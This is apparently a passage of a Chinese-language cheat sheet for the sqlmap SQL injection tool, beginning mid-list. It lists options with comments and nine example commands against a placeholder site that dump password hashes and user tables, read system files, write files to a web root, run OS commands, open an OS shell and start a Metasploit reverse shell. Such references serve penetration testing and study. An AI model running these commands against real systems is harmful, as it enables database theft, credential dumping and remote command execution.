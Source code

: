 ```bash
    2：显示调试消息。 
    3：有效载荷注入。 
    4：显示HTTP请求。 
    5：显示HTTP响应头。 
    6：显示HTTP响应页面的内容 
--privileges  #查看权限 
--is-dba      #是否是数据库管理员 
--roles       #枚举数据库用户角色 
--udf-inject  #导入用户自定义函数（获取系统权限） 
--union-check  #是否支持union 注入 
--union-cols #union 查询表记录 
--union-test #union 语句测试 
--union-use  #采用union 注入 
--union-tech orderby #union配合order by 
--data "" #POST方式提交数据(--data "page=1&id=2") 
--cookie "用;号分开"      #cookie注入(--cookies=”PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low”) 
--referer ""     #使用referer欺骗(--referer "http://www.baidu.com") 
--user-agent ""  #自定义user-agent 
--proxy "http://127.0.0.1:8118" #代理注入 
--string=""    #指定关键词,字符串匹配. 
--threads 　　  #采用多线程(--threads 3) 
--sql-shell    #执行指定sql命令 
--sql-query    #执行指定的sql语句(--sql-query "SELECT password FROM mysql.user WHERE user = 'root' LIMIT 0, 1" ) 
--file-read    #读取指定文件 
--file-write   #写入本地文件(--file-write /test/test.txt --file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt) 
--file-dest    #要写入的文件绝对路径 
--os-cmd=id    #执行系统命令 
--os-shell     #系统交互shell 
--os-pwn       #反弹shell(--os-pwn --msf-path=/opt/framework/msf3/) 
--msf-path=    #matesploit绝对路径(--msf-path=/opt/framework/msf3/) 
--os-smbrelay  # 
--os-bof       # 
--reg-read     #读取win系统注册表 
--priv-esc     # 
--time-sec=    #延迟设置 默认--time-sec=5 为5秒 
-p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"  #指定user-agent注入 
--eta          #盲注 
/pentest/database/sqlmap/txt/
common-columns.txt　　字段字典　　　 
common-outputs.txt 
common-tables.txt      表字典 
keywords.txt 
oracle-default-passwords.txt 
user-agents.txt 
wordlist.txt 
```
常用语句 :
```bash
1./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db --users --passwords --dbs -v 0 
2./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --passwords -U root --union-use -v 2 
3./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -T users -C username -D userdb --start 2 --stop 3 -v 2 
4./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -C "user,pass"  -v 1 --exclude-sysdbs 
5./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --sql-shell -v 2 
6./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-read "c:\boot.ini" -v 2 
7./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-write /test/test.txt --file-dest /var/www/html/1.txt -v 2 
8./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-cmd "id" -v 1 
9./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-shell --union-use -v 2 
```